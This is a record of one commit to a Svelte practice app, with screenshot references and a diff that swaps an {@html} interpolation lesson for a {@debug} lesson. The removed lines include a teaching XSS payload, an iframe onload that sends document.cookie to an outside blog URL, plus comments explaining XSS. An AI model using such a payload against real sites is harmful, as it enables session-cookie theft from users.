

Before and after one commit to ChoJinmok/svelte-test, a Svelte app: page / in a window 1280 px wide. Shown: the top 300 px of the page, without its empty margins (0-640 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Add: 보간법 / 2. 데이터 디버깅

```diff
--- a/src/App.svelte
+++ b/src/App.svelte
@@ -1,17 +1,19 @@
 <script lang="ts">
-  const h1 = '<h1>Hello Heropy</h1>';
-
-  // documnet.cookie에 로그인 정보가 담겨있다고 가정 -> XSS 공격 가능
-  // 내용을 필터링할 수 있는 라이브러리 사용하는 것이 좋다.
-  const xss = '<iframe onload="document.location=`https://heropy.blog?${documnet.cookie}`"></iframe>';
+  const name = 'Jinmok';
+  let index = 0;
 </script>
 
-<!-- `@` 기호는 `at-sign`이라고 부른다. -->
-{@html h1}
-<!-- html로 해석돼서 들어가야하는 문자열이 있으면 보간법 내부에서 앞쪽에 html 키워드를 붙여준다. -->
+<!--
+  JS에서는 console을 활용해서 디버깅을 많이 해주는데 Svelte는 기본 디버깅 키워드(debug)를 제공한다.
+ -->
 
 <!--
-XSS(Cross Site Scripting, 사이트 간 스크립팅)은 웹 취약점 중 하나로
-웹사이트 관리자가 아닌 제3자가 웹에 악성 스크립트를 삽입할 수 있는 것을 의미한다.
--->
-{@html xss}
+  보간에 작성돼있는 데이터가 변경될 때마다 콘솔에 내용을 출력해준다.
+  여러가지 데이터를 넣어줄 수 있다.
+  디버깅하려는 데이터에대한 추적 코드를 script쪽에 넣지않아도 html위치에 편하게 작성할 수 있다.
+  개발자 도구가 켜져있는 상태에서 데이터가 변경되면 프로세스를 일시정지 해준다. -> 불편할 수도 있음
+ -->
+{@debug index, name}
+<h1
+  on:click={() => { index += 1; }}
+  on:keydown={() => {}}>Hello {name}!</h1>
```
